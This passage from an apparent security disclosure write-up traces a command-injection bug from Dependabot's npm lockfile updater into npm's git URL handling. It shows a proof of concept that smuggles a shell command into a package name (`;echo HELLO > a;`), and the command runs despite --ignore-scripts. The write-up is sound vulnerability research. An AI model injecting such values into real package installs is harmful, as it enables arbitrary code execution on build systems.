https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_updater/npm_lockfile_updater.rb#L183-L192
```ruby
          command = [
            "npm",
            "install",
            *install_args,
            "--force",
            "--dry-run",
            "false",
            "--ignore-scripts",
            "--package-lock-only"
          ].join(" ")
```

Therefore, I thought Dependabot doesn't escape the arguments, but it does properly escapes all command arguments.

https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/common/lib/dependabot/shared_helpers.rb#L274
```ruby
      cmd = allow_unsafe_shell_command ? command : escape_command(command)
```

So I manually run `npm install` command to see what was happened and...

```
$ npm install 'git+https://github.com/tyage/sample-package;echo HELLO > a;' --ignore-scripts
npm ERR! code 127
npm ERR! command failed
npm ERR! command git ls-remote ssh://git@github.com/tyage/sample-package;echo HELLO > a; .git
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd HEAD
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/heads/main
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/4.0.0
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/5.0.0
npm ERR! zsh:1: command not found:  .git

npm ERR! A complete log of this run can be found in:
npm ERR!     /Users/tyage/.npm/_logs/2021-04-06T09_39_20_675Z-debug.log
$ cat a
HELLO
```

Yes, the bug is in npm!
Even if there is a `--ignore-scripts` option, we can execute a shell command injected in a package name!

When we call `npm install` command with `git+https://...` package name, `git ls-remote` command is triggered using `child_process.spawn` method.

https://github.com/npm/cli/blob/dedb9c8f8b0891b30aa76e60cdb1c4f0f9b2f22f/node_modules/%40npmcli/promise-spawn/index.js#L36
```javascript
    proc = spawn(cmd, args, opts)
```
